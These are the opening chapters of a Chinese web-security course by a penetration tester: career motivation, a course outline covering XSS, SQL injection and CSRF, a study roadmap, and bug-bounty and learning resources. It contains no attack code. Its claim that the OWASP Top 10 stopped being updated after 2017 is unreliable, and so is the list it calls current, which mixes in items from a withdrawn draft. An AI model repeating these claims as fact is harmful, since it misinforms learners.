









Safe: Web 安全攻防之道
- TAGS: Safe
40829字
开篇词 学习 Web 安全，防止你的网站被入侵
你好，我是赢少良。我在安全行业从业 10 年，目前就职于某世界 500强知名企 业，主要从事安全应急、渗透测试等信息安全相关的工作。我曾多次获得“微软 全球最具价值安全研究员”，也曾获得国内外各大知名厂商的漏洞致谢，包括 Mcicrosoft、Google、Apple、Adobe、阿里、百度等。
早年，我在《黑客防线》《黑客手册》等知名技术杂志上发表文章，并常年混迹 于国内各大SRC 平台，以及 HackerOne 等国外知名的漏洞奖励平台，擅长领域 涉及Web、Android、Windows、macOS/iOS 等多个安全方向。
拉勾教育在做的事情，让我有幸触碰一种新的内容分享方式，来和你系统化聊一聊 Web 安全。
未知攻，焉知防
高中时，某日在一手机论坛上闲逛，碰巧有两个网站的站长因为矛盾产生了一场 骂战。最后其中一位站长把另一站长的网站给黑了，还挂了“黑页”（黑客篡改 掉的网站页面），上面写着“Hacked By xxx”的字样。当时对那位站长深感敬 仰，感觉真酷。现在回想起来，难免自嘲那会儿太年轻，没见过世面。
这里声明下： 非法入侵他人网站属于违法行为，要负法律责任的 。
早些年，国家网络安全法律还不健全，很多网站的安全性也非常欠缺；很多网站 被黑掉，被黑客们美其名曰“友情检测”；各种黑页满天飞，甚至还有专门的网 站来统计和排名。有人为了上榜，就拼命地乱黑网站，挂黑页炫耀，甚至留QQ 号收徒，然后截图提交到排行榜网站。
写开篇词的时候，我还去搜了下，找到了一张比较有挑衅意味的黑页：
图 1：黑页展示
一些小网站被黑，可能影响不大。但如果是大公司的网站被黑，随便一起都是一 次严重的公关事件，甚至股价腰斩。
2017 年 9 月，美国三大信用评级机构之一的 Equifax公司服务器被黑，数据库 被盗，导致近一半的美国人隐私信息遭泄露，包括姓名、生日、电话、住址、信 用卡号、驾驶证号等。被曝光当天，Equifax股价暴跌，花了近 2 年的时间才恢 复原先的价格。
图 2：艾可菲公司股票
可能你觉得其他公司和你没有关系。那如果是你的网站被黑，或者是你就职公司 的网站被黑，你会做何感想呢？
我们当然不希望发生这种事情。 所以学习相关的网络渗透技术，正是为了更好 地防御 。如果你不知道黑客是如何攻击的，自然也就无从做出相应的防御对策。 这就跟警察抓罪犯一样，如果警察不具备犯罪相应的知识，又如何洞察他人的犯 罪行为呢？“未知攻，焉知防”，正是此理。
为什么要学 Web 安全？
随着时代的发展，如今无论是国家还是企业，都十分重视网络安全，各种相关的 岗位也随之出现。在拉勾网上搜“Web安全”就能找到相关的岗位。
图 3：招聘信息来源拉勾网
根据 HackerOne 的报告数据（下图），71％的安全问题都出现在网站上，其次 是一些 API 接口，这些接口可能是 Web的，也有可能是二进制软件的；再往下 就是 iOS 与 Android 应用了。
图 4：HackerOne 的报告数据
可以说，网站安全攻防，也就是我们俗称的 Web 安全，占比通常达到了 80％ 以上。 Web安全是最受外部黑客关注的目标，也是企业应该重点防御的对象 。
尽管 Web安全如此重要，但我在面试一些渗透测试岗位的 求职者 时，发现多 数人要么 只懂得利用，不懂得防御 ，要么就是 缺乏实战能力 。
企业你是想让你来发现和解决安全问题的，如果不懂防御，又如何为企业提供相 应的解决方案呢？更何况Web安全是一项注重实战的技能，如果缺乏实战能力， 到了真被入侵的时候，根本就无法应对。
如果你想从事安全行业，或者是想从事前后端开发工作，学习 Web安全知识能让 你更有效地应对入侵问题，甚至是提前做好安全防护，防止安全事件的发生。
另外，学习 Web 安全相关的知识，不仅可以帮助你提升自己，还能赚取赏金 。
国内外企业都有自建安全响应中心，用于接收外部报告漏洞；然后，依据漏洞危 害等级和质量给予相应的赏金或礼品，比如TSRC（腾讯安全应急响应中心）、 MSRC（微软安全响应中心）。此外也有一些知名的第三方漏洞奖励平台，比如 HackerOne，上面经常会公开一些漏洞案例，非常有学习价值。
一开始想赚赏金是有些难度的，因为在上面挖漏洞的白帽子非常多，遇到报告相 同漏洞的情况时（俗称“撞洞”），平台只会把赏金给到最早报告漏洞的人。如 果你没有系统化的Web安全知识，只会用一句弹提示框的语句到处填写输入框， 看是否会弹框，那基本是挖不到漏洞的。
我刚开始去国内SRC（安全响应中心）平台赚赏金的时候，有点力不从心，很难 挖到有价值的高危漏洞。我尝试购买了一些相关的书籍，但那些书大多是停留在 理论知识上，没有提供实践操作的方法。后来即便挖到了一些漏洞，当厂商来问 我一些具体的危害和修复建议（有助于提高厂商评估的奖金额度）时，我又经常 答不上来。
课程设计
面对这些问题，我确定了本课程的思路，也就是前面我提到的“未知攻，焉知 防”。我将课程分成了 3 个模块，通过工具和方法论介绍、理论分析、案例实 战，从多个维度带你了解 Web 安全，建立完整的 Web 安全知识体系。
- 模块一，Web攻防基础 。这是正式开始前的准备工作，主要介绍了一些常用 的工具，并带你 搭建靶场，避免非法测试他人网站 。通过这一部分的学习， 你可以掌握一些常用的渗透工具和信息收集的方法，帮助你提高测试效率和成 功率；搭建靶场也能让你更好地理解漏洞的产生原理和利用，提高实战能力。
- 模块二，漏洞攻防原理 。作为这门课最硬核的部分，在模块一的基础上， 我补充了一些实用的工具和测试方法（例如sqlmap），讲解了各种常见的 Web 漏洞攻防原理，教你进行安全测试，并通过靶场进行演练。通过这一部分的学 习，你可以 了解XSS、SQL 注入、CSRF 等常见 Web漏洞类型的攻击与防御方 法 。只有深入学习这些漏洞攻防技术，才能避免自己成为只会使用工具的 “脚本小子”。
- 模块三， Web 安全建设 。这里介绍的是企业内部对于 Web安全漏洞的防御 方法。 如何更系统、更全面、更早地检测、修复、拦截各种漏洞，防止企业 产品遭受外部利用漏洞进行恶意攻击 是这一模块的重点。业务开发过程中， 避免安全漏洞的产生也是一个非常重要的流程。
通过这一部分的学习，你不仅能保障自己业务产品的正常运行，而且能避免自己 的绩效受到安全事件的影响。业务产品上线后，若是被攻击入侵，也能拥有修复 漏洞和应急处置的能力，这是在工作中表现自己能力的最佳时刻。
在这个过程中，我希望“授人以渔”地教授你正确的学习方法，不仅引你入门， 更能让你获得持续的自我提升；同时，我希望通过分析常见的 Web 漏洞类型的 原理、利用、检测与防御，让你能够独立完成渗透测试工作，让你能够帮助企业 更早地发现和修复漏洞，防止被外部攻击入侵。
课程中，我还会结合公开的漏洞靶场和 CTF 赛题，通过实例来讲解 Web 安全攻防的方方面面，指导你搭建环境练习，在实践中学习与应用。
讲师寄语
入门 Web 安全并不难，难的是如何在实战中不断提升自己，在前人的技术研究 基础上，有所创新和提升。在这门课中，我会带你系统了解安全知识体系，学会 分析和解决 Web 安全相关问题，帮助你胜任更具有挑战性的工作。
哪怕你是研发岗，并未在从事安全行业，掌握安全技术，也一定会在将来的某一 时刻发挥作用。 用技术打造自己的核心竞争力，做职业生涯的常青树，做生活 的保护伞，也不失为一种提升职场竞争力，抵御职业风险的有效手段 。
相信你只要认真学完本课程，并认真跟着课程进行实战练习，就能够具备独立的 渗透测试能力。如果在学习完本课程后，你刷到了自己的第一笔漏洞奖金，记得 回来分享下，期待你的好消息。
课前导读 如何学习 Web 渗透技术
你好，我是赢少良。从这一讲开始，我们就进入了 Web安全相关的攻防技术的学 习，希望这个课程能对你有所帮助。
在课前导读部分，我想讲一下我个人在学习历程中总结的心得。
Web 安全学习路线
我们先来看下 Web 所涉及的内容。
一般来说，我们常说的 Web 是指网站，其本义是万维网。这个实际涵盖的内容 就很多了，涉及浏览器、服务器运行环境等常出现内存破坏漏洞的应用和系统。 但是在安全行业内，我们通常所说的Web 安全，是指 Web 应用安全，即网站安 全，也包含仅提供后端 CGI服务的应用（供移动 App调用的，无直接的前端网 页），可以简单地分为前端和后端，如下图所示：
图 1：Web 相关知识结构
平常行业内所说的二进制安全，通常是指内存破坏漏洞、逆向工程、病毒对抗等 涉及二进制数据分析的技术领域。虽然浏览器、Linux系统等也是 Web 领域中的 一个环节，但本课程不涉及二进制安全内容，仍以狭义上的网站安全为主要内容。
在学习 Web 安全的过程中，有 3 个阶段。
阶段一：前端知识学习
前端开发主要就是 HTML、CSS、JavaScript 这 3门语言的学习。
在学习前， 建议你先了解下 HTTP相关的知识 ，掌握它的工作原理、请求方 法、响应头、状态码、内容类型等等。
行业内有一本很厚的《HTTP 权威指南》，共 694页，如果从这本书入手其实是 很打击人的，不太推荐，建议你上“菜鸟教程”学习HTTP 课程（所有本课程中 提及的书或教程，在文末都会整理一份清单给到你）。
学完之后，直接用 Chrome 浏览器的检查器（快捷键 F12 或Ctrl+Shift+I）里 的“Network”标签查看 HTTP 请求与响应包数据，如下图所示：
图 2：Chrome 浏览器的 HTTP 请求与响应包数据
它可以帮助你快速理解 HTTP 的交互原理，并使你有一个直观的认识。个人觉得 这是快速学习 HTTP 的方法，花30~60 分钟就足够了。
接下来就是学习HTML+CSS 。学习前端的最好资料就是“W3school”网站。
关于 HTML 与 CSS 的教程链接也在文末附上了。
最后就是学习JavaScript 。这是前端开发最精髓的部分，在”菜鸟教程“上 也有免费的教程，你可以边学习边实践。之后，你可以再学习下当前最流行的前 端开发框架 Vue.js（有精力也可以学习下 React、Angular等开发框架），它是 一套构建用户界面的渐进式框架，其自带的和第三方的丰富组件可以帮你快速开 发出漂亮的网页，不用从头开始写代码。
关于 Vue.js 的学习资料，推荐“Vue.js中文文档”。“菜鸟教程”上也有，个 人比较喜欢上面的“尝试一下”功能，两套教程均在文末附上链接，记得查看。
“菜鸟教程”更适合入门学习，如果你想进一步地学习，尤其是JavaScript，最 好是找两本书进修下。这里推荐《 JavaScript DOM编程艺术 》和 《 JavaScript 高级程序设计 》，记得先看第一本，再看第二本。
阶段二：后端知识学习
学完前端，就要来学习后端的知识了。
随着 Node.js 的崛起，很多后端也开始用前端语言 JavaScript 来开发后端功能。Node.js 基于 Chrome V8 提供的 JavaScript 运行环境，非常适合前端工程师作为进军后端开发的阶梯。关于 Node.js 教程的链接在文末的“其他资料”一节中已附上。
更为传统的后端开发经常是搭配 PHP+MySQL 数据库。以下是 2020 年 W3Tech 对当前 Web 开发技术的调查情况，其结果表明全球 78.8% 的网站使用 PHP 作为服务器后端开发语言。
图 3：2020 年 W3Tech 对当前 Web 开发技术的调查情况
鉴于上图，本课程涉及的主要语言是 PHP，很多漏洞示例也是以 PHP 为例，掌握 PHP 基础也是学习本课程的预备知识要求。
我在这里推荐《 PHP 和 MySQL Web 开发 》一书，里面讲解了 PHP的方方面 面，而且在第 2 篇中还专门讲解了 MySQL，以及如何用 PHP 与 MySQL交互。
现在 Go 以高性能的优势发展得相当快，已经有不少后台开发采用Go，这也是未 来后台开发技术的一大发展趋势。本课程主要以引导入门为主，为了避免课程内 容变得太过复杂，关于Go 的教程就暂不推荐了。
学完这一阶段，咱们就可以进入最后一个学习的阶段，也就是本课程的主题：Web 漏洞攻防技术。
阶段三：漏洞攻防学习
Web 漏洞包含哪一些主流的漏洞类型，最佳的参考就是 OWASP Top 10，不过它在 2017 年之后就停止更新维护了。以下是当前的官方统计结果，按顺序排名。
- 注入 ：SQL、NoSQL 数据库注入，还有命令注入和 LDAP 注入等。
- 失效的身份认证和会话管理 ：比如攻击者破解密码、窃取密钥、会话令牌或其他漏洞去冒充他人的身份。
- 跨站脚本（XSS） ：XSS 允许攻击者在受害者的浏览器上执行恶意脚本，从而劫持用户会话、钓鱼欺骗等等。
- 失效的访问控制 ：比如越权访问其他用户的个人资料、查看敏感文件、篡改数据等。
- 安全配置错误 ：比如服务器的不安全配置，导致敏感信息泄露。
- 敏感信息泄露 ：比如账号密码未加密存储、敏感数据传输时未加密保护，最终造成数据泄露。
- 攻击检测与防护不足 ：比如WAF、主机入侵检测等防御系统部署不全，这 块偏向漏洞防御本身。
- 跨站请求伪造（CSRF） ：攻击者诱使其他登录用户访问恶意站点，以冒用对方的身份执行一些敏感操作。
- 使用含有已知漏洞的组件 ：比如一些第三方的开源库、框架等，尤其是已 公开漏洞的旧版本，比如名燥一声的Struts2 漏洞，因频繁出现漏洞被许多 开发者弃用。
- 未受有效保护的 API ：比如浏览器和移动 App 中的 JavaScript API， 常常因其提供的特殊功能未受有效保护而被滥用，造成不同等级的危害程度。
OWASP Top 10 也不完全属于具体的 Web 漏洞类型，比如第 7、9点，但其他涉 及的主流漏洞类型，我在本课程中大多会讲到，比如 SQL注入、XSS、CSRF。
只有真正掌握了这些 Web 漏洞相关的安全技术，才能算是入门了 Web安全领域， 为你将来求职、刷榜漏洞奖励计划奠定基础。
关于这阶段的学习，除了本课程的内容外，还可以系统地学习下这两本书： 《黑客攻防技术宝典：Web实战篇》 和 《白帽子讲 Web安全》 。这是个人 认为在深度和广度上都有所兼顾的书籍，非常适合 Web安全的入门。另外也有一 本叫 《Web安全测试》 的书籍，这本更偏向实战，里面介绍了不少渗透测试 的技巧和工具，在你理解了常见Web 漏洞类型后，可以将其作为实战参考手册。
学习技巧
了解了 Web安全学习的路线后，你也就知道了学习的方向，那我们应该怎样去学 习呢？
常言道“学以致用”，但在注重实践的计算机科学领域，有时“ 用以致学 ” 可能效果更佳。换句话说，就是带着实际的应用目的去学习。我列举了以下6 个 场景，你可以带着这些目的去学习。
面向岗位学习
你毕业后肯定得找工作，如果你想从事安全工作，这关是免不了，除非你家里有矿，那当我没说。
对于面向岗位的学习，你可以直接上招聘网站查找相关岗位的招聘要求，比如在拉勾网搜索“Web 安全”，然后挑选自己感兴趣的公司，比如腾讯或 360，然后查看其岗位描述：

图 4：招聘信息来源拉勾网
关键在于“ 任职要求 ”，一般招聘信息里面都会有“职位描述”和“任职要 求”或“岗位要求”的信息，“任职要求”里面与技术相关要求就是你要学习的 方向。比如上图360 的招聘信息，总结下技术要求就是： 熟悉 Web漏洞攻防*、 *工具实战 、 开发能力 。
这几块能力要求在本课程中都会涉及，但主要还是集中在 Web 漏洞攻防的部分。 这是最主要的要求。其他工具实战在靶场介绍中会涉及，后面也会有一些常见的 渗透测试工具的集合介绍。
带着这种求职岗位的要求就可以很容易地找到学习的方向，对未来找工作也有直 接的帮助。
面向赏金学习
当前国内SRC（安全响应中心）平台早已是企业标配，各家各户有能力的都在自 建，没能力没条件的就寄托在第三方漏洞平台上。无论是自建的还是寄托在第三 方漏洞平台上的，它们的目的只有一个，那就是收集自家产品漏洞，提高产品安 全性，完善自身检测与防御系统，同时避免被公关炒作。
SRC平台会给报告者提供奖品或现金奖励，因此长期吸引着大批白帽子为其测试 网站。国外比较著名的漏洞奖励平台有HackerOne，像微软 Google、Apple也都 有自己的漏洞奖励计划，但因后者都是美金奖励，在汇率的优势下，奖金换算成 人民币，常常价值不低。这也是一些老白帽子更喜欢混迹于国外漏洞奖励平台的 原因。
Web漏洞常常都能够直观地危害到网站的安全性 。它们整体上相比二进制漏洞 更容易被利用，危害也就更大。除了像微软、Google、Apple这种集中在二进制 漏洞为主的奖励计划，很多赏金其实都是分给了 Web漏洞，比如 SRC、 HackerOne。
你可以 根据漏洞奖励计划中提供的网站范围，有针对性地进行安全测试，然后 将发现的漏洞报给平台换取赏金 。这种以赏金为驱动力的学习方式，对于在校 生特别有诱惑力。他们可以通过赏金购买书籍、电子产品进一步学习，然后挖掘 更多漏洞，赚取更多赏金，将学习转变为主动学习，构造出良性特征的学习动力。
采用面向赏金的学习方法，不仅可以提高自身的漏洞实战能力，而且还可以赚取 赏金，何乐而不为？
面向工具学习
GitHub 上经常开源一些优秀的安全工具，在 Web 安全领域，以 sqlmap最为著 名。整个项目非常工程化，表现能力也非常优秀。 它采用 Python开发，通过 阅读 sqlmap 源码，对研究 SQL 注入漏洞有很大的帮助 。
其他的还有一些漏洞靶场，除了实战测试，也可以通过源码了解是什么样的代码 导致的漏洞，避免自己在未来开发中遇到。
一些优秀的开源工具，常会提供一些不错的漏洞检测和利用的方向，及时掌握相 关技术，有助于自身技术的与时俱进，避免落后于技术发展。
面向漏洞学习
在国外有词叫 Variant Analysis，直译过来叫“ 变异分析 ”，意思是 通 过历史漏洞学习和研究，从而挖掘出类似产品中更多相似的漏洞 。尤其是同一 款产品下，如果开发写出了一个漏洞，那么在其他地方出现同一类漏洞的概率就 比较大。
乌云网已经成为历史，但其遗留下的漏洞案例是一笔不错的财富。网上也有人搭 建了乌云镜像提供相关的漏洞、知识库的检索，你可以点击链接查看。
HackerOne 通常在漏洞修复后的 3个月会公开漏洞细节，栏目名叫 “Hacktivity”，它提供RSS 订阅，可以非常方便地关注。
图 5：Hacktivity
说到漏洞库就不得不提 Exploit-db，其中有着丰富的漏洞细节和利用代码。 2014年那时还是一个叫 milw00rm 的漏洞库为主流，milw00rm 不再维护后，所 有漏洞信息都被并入了 Exploit-db。至今，Exploit-db还在正常运营，其背后 的团队正是打造了著名黑客系统 Kali 的Offensive-Security安全公司，是一家 专门从事安全培训和渗透测试服务的提供商。
图 6：Exploit-db
这种通过漏洞学习漏洞的方式，除了加深对漏洞的理解，还可以提高漏洞挖掘的 产出，是一种十分有效地学习方式。
面向大牛学习
在你感兴趣的安全领域里，通常都有一些大牛，你可以去收集他们发表的论文、 文章、大会议题，关注他们的微博、公众号、Twitter、GitHub、博客等社交平 台账号，去了解他们的技术成长路线。
